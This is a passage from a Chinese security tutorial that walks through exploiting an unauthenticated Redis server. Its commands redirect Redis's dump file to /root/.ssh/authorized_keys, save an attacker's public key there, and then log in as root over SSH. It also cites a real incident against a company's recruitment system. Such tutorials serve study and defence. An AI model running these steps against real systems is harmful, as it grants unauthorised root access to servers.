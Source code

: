 5、连接到这个 Redis 上：
``` shell
[root@test-node1 ~]# redis-cli -h [服务器IP]
```

6、设置 rdb 文件存放的路径：
```shell
redis [服务器IP]:6379> config set dir /root/.ssh/
```
注：[Redis Config Set 命令 - 修改 redis 配置参数，无需重启](https://www.redis.net.cn/order/3669.html)


7、设置 rdb 文件的文件名
```shell
redis [服务器IP]:6379> config set dbfilename "authorized_keys"
```

注：`config set dir xxx` 和 `config set dbfilename xxx` 这两步是什么意思呢？

> 引自于： [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)，离别歌，PHITHON，2015年3月13日
我们可以将`dir`设置为一个`目录a`，而`dbfilename`为`文件名b`，再执行`save`或`bgsave`，则我们就可以写入一个路径为`a/b`的任意文件：
![title](https://leanote.com/api/file/getImage?fileId=5dd13bfdab6441492c000928)
当我们获得了一个 redis 控制台，我们可以调用 `config set/get` 等命令对 redis 的部分配置进行修改。而恰好的是，我们可以通过`config set`来更改`dir`和`dbfilename`。也就是说我们可以不用修改`redis.conf`，也不用重启 redis 服务就可以写入任意文件。

所以这两步加上下面的 `save` 这一步是把上面在内存中写入的公钥写入到 `/root/.ssh/authorized_keys` 这一个硬盘上的文件中。

8、搞定保存。

``` shell
redis [服务器IP]:6379> save
redis [服务器IP]:6379> exit
```
注：Redis 的数据主要保存在内存中，但使用者可以随时执行 `save` 命令将当前 Redis 的数据保存到硬盘上，另外redis也会根据配置自动存储数据到硬盘上。


9、尝试登陆：
``` shell
[root@test-node1 ~]# ssh root@[服务器IP]
Last login: Wed Nov 11 17:39:12 2015 from test-node1.unixhot.com
```

这样我们就获得了一台服务器的 sh。


可以到此服务器上查看，发现 `/root/.ssh` 目录下已经有了 `authorized_keys`：
``` shell
[root@test-node2 ~]# cat /root/.ssh/authorized_keys
```

下2图是一个联想招聘系统 Redis 未授权写 ssh key 获取 sh 的实例：


![title](https://leanote.com/api/file/getImage?fileId=5dd12316ab64414b290007ef)

![title](https://leanote.com/api/file/getImage?fileId=5dd1237aab6441492c000809)


**实例：**

